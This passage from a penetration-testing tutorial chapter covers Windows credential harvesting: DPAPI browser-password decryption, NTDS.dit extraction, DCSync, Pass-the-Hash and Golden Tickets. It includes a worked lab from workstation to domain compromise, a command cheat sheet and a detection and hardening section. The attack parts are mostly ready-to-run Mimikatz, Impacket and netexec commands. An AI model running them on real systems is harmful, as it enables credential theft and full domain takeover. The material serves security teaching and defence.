**When to bother:** DCC2 is a fallback. If LSASS gave you a live NT hash for the same user, use that instead — it's instantly reusable. Reach for DCC2 only when the user isn't logged on (nothing in LSASS) but their cached verifier is on the disk you own.

---

## Part 8: DPAPI, the Credential Vault, and Application Secrets

Not every secret is a Windows logon credential. Browsers, RDP, Wi-Fi, Credential Manager, and many apps store *their* secrets protected by **DPAPI** (Data Protection API). Once you own the host or the user context, these become cleartext — and they often contain passwords that unlock things Windows auth alone won't.

### 8.1 How DPAPI works (just enough)

DPAPI encrypts a blob with a **masterkey**; the masterkey itself is protected by a key derived from the **user's password** (for user-scope) or the **machine DPAPI key** (for machine-scope). So there are three ways in:

1. **You know/own the user's password or NT hash** → derive the masterkey → decrypt the blob.
2. **You are SYSTEM** → grab the machine DPAPI key (`DPAPI_SYSTEM` from LSA secrets) for machine-scope blobs, or use Mimikatz's `dpapi::masterkey /rpc` to ask the DC.
3. **You are running as the user** → the OS decrypts transparently; tools like `mimikatz dpapi::` or SharpDPAPI use the live context.

Per-user masterkeys live in `%APPDATA%\Microsoft\Protect\<SID>\`.

### 8.2 Browser passwords

Modern Chromium browsers wrap an AES key with DPAPI and store creds in a SQLite DB. Mimikatz automates the whole chain:

```text
mimikatz # dpapi::chrome /in:"%LOCALAPPDATA%\Google\Chrome\User Data\Default\Login Data"
```

- `dpapi::chrome` — locates the DPAPI-protected AES state key, decrypts it, then decrypts each stored login.
- `/in:` — path to the browser's `Login Data` SQLite file.

Output is `url / username / password` in cleartext. **Bug-bounty / red-team relevance:** harvested browser creds frequently include VPN portals, internal apps, and cloud consoles that expand access far beyond the compromised host — this is one of the highest-value, lowest-noise stores.

### 8.3 Credential Manager & Wi-Fi

```cmd
:: saved Windows/RDP/web creds (masked)
cmdkey /list

:: all Wi-Fi profiles + cleartext keys
netsh wlan show profiles
netsh wlan show profile name="CorpWiFi" key=clear
```

- `cmdkey /list` — enumerates stored credentials (shows targets, not passwords).
- `netsh wlan show profile ... key=clear` — prints the **cleartext** pre-shared key for a saved wireless profile.

To actually decrypt the Credential Manager blobs, use Mimikatz `dpapi::cred /in:<blob>` after obtaining the masterkey with `dpapi::masterkey`, or the C# tool **SharpDPAPI** (`SharpDPAPI.exe credentials`) which automates masterkey + blob decryption in one shot.

---

## Part 9: NTDS.dit — The Whole Domain in One File

Everything so far is *host*-scoped. If your compromised box is a **Domain Controller**, or you hold **replication rights**, you can extract **NTDS.dit** — the AD database containing the NT hash (and Kerberos keys) of **every account in the domain**, including `krbtgt`, every Domain Admin, and every computer. This is the endgame of an internal engagement.



### 9.1 The locking problem and the two on-DC methods

`ntds.dit` is locked by the running directory service, so you can't just copy it. Two standard ways around the lock:

**A) Volume Shadow Copy (VSS).** Snapshot the volume and copy the file out of the snapshot:

```cmd
vssadmin create shadow /for=C:
:: note the shadow copy device path from the output, then:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\Temp\ntds.dit
reg save HKLM\SYSTEM C:\Temp\system.save
```

- `vssadmin create shadow /for=C:` — creates a shadow copy of C:, giving you a consistent, unlocked snapshot.
- You copy `NTDS.dit` from inside the snapshot and also grab the `SYSTEM` hive (needed for the bootkey that decrypts the database).

**B) `ntdsutil` IFM (Install-From-Media).** The built-in AD tool creates a clean IFM export (DB + SYSTEM hive):

```cmd
ntdsutil "ac i ntds" "ifm" "create full C:\Temp\ifm" q q
```

- `ac i ntds` — activate instance NTDS.
- `ifm` → `create full C:\Temp\ifm` — dump a full IFM set (NTDS.dit + registry) to a folder.

Then parse offline:

```bash
impacket-secretsdump -ntds ntds.dit -system system.save LOCAL
```

Output (one line per account):

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9c8d7e6f5a4b3c2d1e0f9a8b7c6d5e4f:::
CORP.LOCAL\jsmith:1108:aad3b435...:5f4dcc3b5aa765d61d8327deb882cf99:::
WS01$:1601:aad3b435...:6f9b4c2e1a8d7c3b5f0e9a2d4c6b8e10:::
```

The `krbtgt:502:...` line is the prize: the `krbtgt` NT/AES key lets you forge **Golden Tickets** (arbitrary TGTs for any user) — full, persistent domain compromise. Handle it as the most sensitive artifact of the entire engagement.

### 9.2 DCSync — pulling hashes remotely without touching the DC's disk

You don't need to stand on the DC. Any principal with the **replication** rights `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` (Domain Admins, Enterprise Admins, and DCs have them; sometimes misconfigured onto lesser accounts) can ask a DC to *replicate* an account's secrets — the exact protocol DCs use among themselves (MS-DRSR). Mimikatz and secretsdump implement it as **DCSync**.



Mimikatz:

```text
mimikatz # lsadump::dcsync /domain:CORP.LOCAL /user:krbtgt
```

- `lsadump::dcsync` — perform the replication request.
- `/user:krbtgt` — replicate just the `krbtgt` account (or `/all` for everyone).

Impacket, from Linux, using a compromised DA credential or hash:

```bash
impacket-secretsdump CORP.LOCAL/da_user:'Password!'@10.10.10.10 -just-dc
impacket-secretsdump -hashes :64f12c... CORP.LOCAL/da_user@10.10.10.10 -just-dc-ntlm
```

- `-just-dc` — pull the domain hashes via DCSync (both NTLM and Kerberos keys).
- `-just-dc-ntlm` — NTLM hashes only.
- `-hashes :<nt>` — authenticate by Pass-the-Hash instead of a password.

**Why DCSync is the preferred endgame:** it runs **no code on the DC**, touches **no LSASS**, and drops **no file** on the target — it looks like legitimate replication traffic. It is far stealthier than dumping NTDS.dit off the disk. **Blue-team relevance:** detect it by monitoring for `DRSGetNCChanges` (Directory Replication) requests originating from an IP/account that is **not a Domain Controller** — that combination is the signature (ATT&CK T1003.006).

---

## Part 10: Using the Loot — Pass-the-Hash, Overpass, and Tickets

Harvesting is worthless until you *use* the material. Because NTLM authenticates by proving knowledge of the NT hash, and Kerberos by proving knowledge of a key, most harvested secrets are usable **without cracking**.

### 10.1 Pass-the-Hash (PtH)

Authenticate over the network with an NT hash directly. Tooling:

```bash
# Run a command on a remote host with just the hash (impacket / netexec)
netexec smb 10.10.10.20 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b
impacket-psexec -hashes :64f12cddaa88057e06a81b54e73b949b Administrator@10.10.10.20
evil-winrm -i 10.10.10.20 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b
```

- `-H <nthash>` (netexec / evil-winrm) or `-hashes :<nthash>` (impacket) — supply the NT hash instead of a password.
- `netexec smb ... -H` also **sprays** a hash across many hosts (`-u` + a target range) to find where a local-admin hash is reused — the classic lateral-movement sweep.

**Bug-bounty / CTF relevance:** on HTB/THM Windows chains, a reused local `Administrator` hash pulled from one box's SAM frequently unlocks half the network via `netexec` spraying. This is the single most common privilege-to-lateral pivot in AD labs.

### 10.2 Overpass-the-Hash (Pass-the-Key)

Turn an NT hash (or better, an AES key from `sekurlsa::ekeys`) into a full Kerberos TGT, so you look like a normal Kerberos user rather than triggering NTLM-based detections:

```bash
impacket-getTGT CORP.LOCAL/jsmith -hashes :5f4dcc3b5aa765d61d8327deb882cf99
export KRB5CCNAME=jsmith.ccache
impacket-psexec -k -no-pass CORP.LOCAL/jsmith@ws02.corp.local
```

- `getTGT -hashes :<nt>` — request a TGT using the hash as the Kerberos key; saves a `.ccache`.
- `KRB5CCNAME` — points Kerberos tools at that ticket cache.
- `-k -no-pass` — authenticate with Kerberos tickets, no password.

Using the **AES256 key** (from `sekurlsa::ekeys`) instead of the RC4/NT hash avoids RC4-downgrade alerts (`-aesKey` in the impacket tools).

### 10.3 Pass-the-Ticket & Golden Tickets

Exported tickets (`sekurlsa::tickets /export`) can be injected directly:

```text
mimikatz # kerberos::ptt ticket.kirbi
```

And with the `krbtgt` key from Part 9 you forge a **Golden Ticket** — a self-made TGT for any user (including a non-existent Domain Admin), valid until `krbtgt` is rotated *twice*. Golden/Silver ticket mechanics get a full treatment in the Active Directory attack chapters; here the point is that **credential harvesting is what makes them possible** — no `krbtgt` key, no golden ticket.

---

## Part 11: Fully Worked Lab — Workstation to Domain

A single reproducible walkthrough tying the chapter together. **Scenario:** you have a SYSTEM shell on `WS01` (a domain-joined Windows 10 workstation) in the `CORP.LOCAL` lab domain, obtained via the Chapter 5 techniques. Goal: harvest local creds, escalate to a domain account, and pull the domain hashes. Lab-only, authorised.

### Step 0 — Confirm context

```cmd
C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> whoami /priv | findstr SeDebug
SeDebugPrivilege    Enabled
```

You are SYSTEM with SeDebugPrivilege — every local store is now readable.

### Step 1 — Grab the local hives (quiet, no parser on host)

```cmd
reg save HKLM\SAM      C:\Windows\Temp\sam.save
reg save HKLM\SYSTEM   C:\Windows\Temp\system.save
reg save HKLM\SECURITY C:\Windows\Temp\security.save
```

Exfiltrate the three `.save` files over your existing channel (SMB, HTTP upload, `netexec --get-file`, etc.).

### Step 2 — Parse offline on Kali

```bash
$ impacket-secretsdump -sam sam.save -system system.save -security security.save LOCAL
[*] Target system bootKey: 0x8d4f9e2a7b1c0e5f6a3d9c8b2e1f4a70
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
svc_backup:1001:aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::
[*] Dumping LSA Secrets
[*] _SC_MSSQLSERVER
CORP\svc_sql:Sup3rS3cr3tSQLpass!
```

Loot so far: a local `Administrator` NT hash (reuse candidate) and a cleartext **domain** service password `CORP\svc_sql : Sup3rS3cr3tSQLpass!`.

### Step 3 — Dump LSASS for whoever is logged on

```cmd
C:\> tasklist /fi "imagename eq lsass.exe"
lsass.exe   672 Services   0   14,208 K

C:\> rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 672 C:\Windows\Temp\lsass.dmp full
```

Exfiltrate `lsass.dmp`, parse on Kali:

```bash
$ pypykatz lsa minidump lsass.dmp
== MSV ==  Username: jadmin  Domain: CORP  NT: 8846f7eaee8fb117ad06bdd830b7586c
== Kerberos == Username: jadmin  Domain: CORP.LOCAL
```

A **domain** user `jadmin` was logged on — you now hold `jadmin`'s NT hash.

### Step 4 — Spray the local-admin hash & test the domain hash

```bash
$ netexec smb 10.10.10.0/24 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b --local-auth
SMB  10.10.10.22  445  WS02  [+] WS02\Administrator 64f12c... (Pwn3d!)
SMB  10.10.10.31  445  WS03  [+] WS03\Administrator 64f12c... (Pwn3d!)
```

The local-admin hash is reused across the fleet. Now test whether `jadmin` is privileged:

```bash
$ netexec smb 10.10.10.10 -u jadmin -H 8846f7eaee8fb117ad06bdd830b7586c
SMB  10.10.10.10  445  DC01  [+] CORP.LOCAL\jadmin 8846f7... (Pwn3d!)
```

`jadmin` is admin on `DC01` — `jadmin` is (at least) a Domain Admin-equivalent.

### Step 5 — DCSync the domain

No need to touch the DC's disk. Pull the domain secrets via replication using `jadmin`'s hash:

```bash
$ impacket-secretsdump -hashes :8846f7eaee8fb117ad06bdd830b7586c CORP.LOCAL/jadmin@10.10.10.10 -just-dc
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9c8d7e6f5a4b3c2d1e0f9a8b7c6d5e4f:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
CORP.LOCAL\svc_sql:1114:aad3b435...:2f1e0d9c8b7a6f5e4d3c2b1a09f8e7d6:::
```

You now hold the `krbtgt` key (golden-ticket capable) and every account hash in `CORP.LOCAL`. From SYSTEM-on-one-workstation to owning the domain — entirely via credential harvesting.

### Step 6 — Clean up (engagement hygiene)

```cmd
del C:\Windows\Temp\sam.save C:\Windows\Temp\system.save C:\Windows\Temp\security.save C:\Windows\Temp\lsass.dmp
```

Record every artifact you created (files, the shadow copy if used, registry changes) in your notes so the report's cleanup section is accurate. Never leave dump files behind.

---

## Part 12: Detection & Defense Angle

Every technique above leaves traces. This consolidated section is the blue-team half — what each attack looks like in telemetry, and how to make the box resistant in the first place. It is organised attack-by-attack so you can map offense to detection directly.

### 12.1 Detecting LSASS access

The highest-fidelity signal in this whole chapter is **a process opening a handle to `lsass.exe` with read/dump rights**.

- **Sysmon Event ID 10 (ProcessAccess)** where `TargetImage` ends with `lsass.exe` and `GrantedAccess` includes `0x1010`, `0x1410`, `0x1438`, or `0x143a` (the access masks that include `PROCESS_VM_READ`). Alert on any source image that isn't a known-good AV/EDR process. This single rule catches Mimikatz, ProcDump, comsvcs, and most nanodump variants.
- **Windows Security 4656 / 4663** — handle to LSASS object access, when SACL auditing is enabled.
- **Microsoft Defender ASR rule** "Block credential stealing from lsass.exe" (`9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2`) blocks the classic handle-open outright — enable it.
- **Sysmon Event ID 11 (FileCreate)** for a new `.dmp` file, especially in `C:\Windows\Temp` or `%TEMP%`.
- **comsvcs signature:** Sysmon EID 1 (ProcessCreate) command line matching `rundll32.exe` + `comsvcs.dll` + `MiniDump` (case-insensitive) — near-zero false positives.

### 12.2 Detecting SAM / hive theft

- **Sysmon EID 1** for `reg.exe save` / `reg save` targeting `hklm\sam`, `hklm\system`, or `hklm\security`.
- **`vssadmin create shadow`** and `ntdsutil ... ifm` command lines (Sysmon EID 1) on a non-DC, or unusual timing on a DC — both are classic NTDS-theft precursors.
- **Event ID 4688** (process creation with command line auditing) covers the same ground where Sysmon isn't deployed.

### 12.3 Detecting DCSync

- **Directory Service Access 4662** on the DC with the replication GUIDs `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` (Get-Changes) / `1131f6ad-...` (Get-Changes-All), where the requesting account is **not** a Domain Controller computer account. That IP-not-a-DC + replication-request pairing is the signature.
- Network-level: `DRSGetNCChanges` RPC from a workstation subnet.

### 12.4 Detecting use of the loot

- **Pass-the-Hash:** Logon Event **4624 Logon Type 3** with **Authentication Package NTLM** for accounts that should be using Kerberos, especially local accounts authenticating across the network. Also 4776 on the authenticating server.
- **Overpass/Pass-the-Ticket:** Kerberos TGT requests (4768) with mismatched encryption types (RC4 where AES is expected) hint at Pass-the-Key; anomalous ticket lifetimes hint at Golden Tickets.
- **Golden Ticket:** TGS requests (4769) referencing a TGT the DC never issued (4768), or tickets for accounts that don't exist.

### 12.5 Hardening — make harvesting fail

| Control | Defeats | Notes |
|---------|---------|-------|
| **Credential Guard (VBS)** | LSASS hash/key theft | Isolates secrets in VTL1; dumping LSASS yields nothing reusable. The strongest single control. |
| **RunAsPPL / LSA Protection** | Casual LSASS reads | Forces attackers to a loud, driver-based bypass. |
| **Disable WDigest / audit `UseLogonCredential`** | Cleartext in LSASS | Ensure the value stays `0`; alert on `1`. |
| **LAPS (Local Admin Password Solution)** | Local-admin hash **reuse** | Randomises & rotates every local admin password — kills PtH spraying. |
| **Defender ASR "block lsass"** | Handle-open dumps | Enable in block mode. |
| **Tiered admin model** | DA creds landing on workstations | Never log Domain Admins into tier-2 hosts — nothing valuable to harvest. |
| **Disable/limit cached logons** | DCC2 cracking | `CachedLogonsCount = 0` on servers that never go offline. |
| **Rotate `krbtgt` twice** | Golden Tickets | After any suspected DC compromise. |

The through-line for defenders: **you cannot stop a SYSTEM-level attacker from reading local memory — so remove the value.** Credential Guard makes the memory worthless, LAPS makes reused hashes worthless, and tiering ensures the workstation an attacker harvests never held domain-privileged secrets in the first place.

---

## Final Revision / Summary

- **Windows stores credentials in seven places** (Part 1): SAM, LSASS memory, LSA secrets, cached logons (DCC2), DPAPI, NTDS.dit, and the Credential Vault. Know which one you want *before* you act.
- The **NT hash is `MD4(UTF-16LE(password))`** — unsalted, un-iterated, and **usable without cracking** via Pass-the-Hash. The hash *is* the credential.
- **SAM needs both the SAM and SYSTEM hives** (SYSTEM holds the bootkey). `reg save` all three of SAM/SYSTEM/SECURITY, then `secretsdump ... LOCAL` offline.
- **LSASS is the richest single-host target** — it holds the secrets of everyone logged on. Protections you'll meet: **Credential Guard** (secrets isolated, dump is empty), **RunAsPPL/PPL** (need a driver bypass), and **EDR handle monitoring** (Sysmon EID 10).
- **Mimikatz** vocabulary: `privilege::debug` → `sekurlsa::logonpasswords` / `ekeys` / `tickets`, `lsadump::sam/secrets/cache/dcsync`, `dpapi::`. Its offline mode `sekurlsa::minidump` parses a dump you took elsewhere.
- **Modern pattern: dump on target, parse on your box.** Take the LSASS dump with `comsvcs.dll MiniDump`, ProcDump, Task Manager, or nanodump; parse with **pypykatz** or `sekurlsa::minidump`.
- **LSA secrets** give cleartext **service-account passwords** and `$MACHINE.ACC`; **cached logons** give **DCC2** verifiers that can only be *cracked* (Hashcat `-m 2100`), never passed.
- **DPAPI** unlocks browser passwords, Wi-Fi keys, and Credential Manager — often the highest-value, lowest-noise loot.
- **NTDS.dit** = the whole domain. Get it via **VSS/ntdsutil** on a DC, or — far stealthier — **DCSync** remotely with replication rights (no code on the DC, no LSASS touched). The `krbtgt` key enables Golden Tickets.
- **Detection** centres on: handles to `lsass.exe` (Sysmon EID 10), `reg save` of the hives, `comsvcs MiniDump` command lines, and non-DC replication requests (4662). **Hardening** centres on Credential Guard, LAPS, tiering, and killing WDigest cleartext.

## Cheat Sheet / Quick Reference

```text
# --- SAM / hives (need SYSTEM) ---
reg save HKLM\SAM sam.save & reg save HKLM\SYSTEM system.save & reg save HKLM\SECURITY security.save
impacket-secretsdump -sam sam.save -system system.save -security security.save LOCAL

# --- LSASS dump (on target) ---
tasklist /fi "imagename eq lsass.exe"                     # find PID
rundll32 C:\Windows\System32\comsvcs.dll, MiniDump <PID> C:\Windows\Temp\lsass.dmp full
procdump.exe -accepteula -ma lsass.exe lsass.dmp          # signed alt

# --- Parse LSASS (on attacker) ---
pypykatz lsa minidump lsass.dmp
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords

# --- Mimikatz live ---
privilege::debug ; sekurlsa::logonpasswords
sekurlsa::ekeys ; sekurlsa::tickets /export
lsadump::sam ; lsadump::secrets ; lsadump::cache

# --- DPAPI / apps ---
mimikatz # dpapi::chrome /in:"%LOCALAPPDATA%\Google\Chrome\User Data\Default\Login Data"
cmdkey /list ; netsh wlan show profile name="X" key=clear

# --- NTDS / domain ---
vssadmin create shadow /for=C:                            # then copy NTDS.dit + SYSTEM
impacket-secretsdump -ntds ntds.dit -system system.save LOCAL
mimikatz # lsadump::dcsync /domain:CORP.LOCAL /user:krbtgt
impacket-secretsdump -hashes :<nt> CORP.LOCAL/da@10.0.0.10 -just-dc

# --- Use the loot ---
netexec smb 10.0.0.0/24 -u Administrator -H <nt> --local-auth   # PtH spray
evil-winrm -i 10.0.0.20 -u Administrator -H <nt>
impacket-getTGT CORP.LOCAL/user -hashes :<nt>                    # Overpass

# --- Cracking references ---
hashcat -m 1000 nt_hashes.txt rockyou.txt -r best64.rule        # NTLM
hashcat -m 2100 dcc2_hashes.txt rockyou.txt                     # MsCacheV2 (slow)
```

**Constants worth memorising:** empty-password NT hash `31d6cfe0d16ae931b73c59d7e0c089c0`; empty LM hash `aad3b435b51404eeaad3b435b51404ee`; RID `500` = built-in Administrator, `502` = `krbtgt`.

## Common Pitfalls

- **Dumping only the SAM.** Without the SYSTEM hive there's no bootkey and the hashes are undecryptable. Always grab SAM **and** SYSTEM (and SECURITY for LSA/cache).
- **Running `reg save HKLM\SAM` as admin, not SYSTEM.** The SAM key grants only SYSTEM — you'll get *Access denied*. Elevate to SYSTEM first.
- **Trying to Pass-the-Hash a DCC2 value.** MsCacheV2 is not usable in any auth protocol — it can only be cracked. Don't confuse it with an NT hash.
- **Expecting cleartext everywhere.** On patched hosts WDigest is off; `sekurlsa::logonpasswords` shows `Password : (null)`. Use the NT hash / Kerberos keys instead, or re-enable WDigest and wait for a re-logon (loud).
- **Dumping LSASS on a Credential-Guard host and finding nothing.** That's expected — pivot to DPAPI or DCSync rather than assuming the tool failed.
- **Architecture mismatch.** Running 32-bit Mimikatz against 64-bit LSASS (or vice versa) yields garbage. Match the architecture.
- **Running the parser on the target.** Executing full Mimikatz on the endpoint is the loudest possible choice. Dump on target, parse on your box.
- **Forgetting cleanup.** Leaving `lsass.dmp` and `.save` files (and shadow copies) on disk is both an OPSEC failure and a liability. Delete and document.

## Practice Labs & Resources

- **TryHackMe — "Attacking Kerberos"** and **"Post-Exploitation Basics":** practice `sekurlsa`, `lsadump`, DCSync, and Pass-the-Hash end to end in a lab AD.
- **TryHackMe — "Breaching Active Directory"** and **"Credentials Harvesting":** focused rooms on exactly this chapter's stores (LSA secrets, DPAPI, cached creds).
- **HackTheBox — "Forest", "Sauna", "Active", "Blackfield":** classic AD boxes where SAM/LSASS/NTDS harvesting and DCSync are the intended path. **Blackfield** in particular drills LSASS-dump-to-DCSync.
- **HackTheBox ProLabs — "Dante" / "Zephyr" / "RastaLabs":** multi-host environments where PtH spraying of harvested hashes is the primary lateral-movement engine.
- **Proving Grounds Practice — Windows boxes** (e.g. *Hutch*, *Heist*): service-account and LSASS harvesting under a stricter, less hand-held setup.
- **Detection practice:** stand up **Sysmon** with the SwiftOnSecurity config on a lab VM, run each technique above, and hunt your own EID 10 / EID 1 / 4662 events in the Event Viewer or a lab Splunk/Elastic. Reproducing your own detections is the fastest way to internalise Part 12.
- **Reading:** the Impacket `secretsdump`, `pypykatz`, and `netexec` docs; the `gentilkiwi/mimikatz` wiki for module details; and the ADSecurity.org write-ups on DCSync and Golden Tickets.

The next chapter continues the post-exploitation arc into persistence and lateral movement — turning the credentials harvested here into durable, repeatable access across the environment.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/pentest-privilege-escalation/06-credential-harvesting-mimikatz-lsass-and-sam-ntds), with comments and the latest edits.*
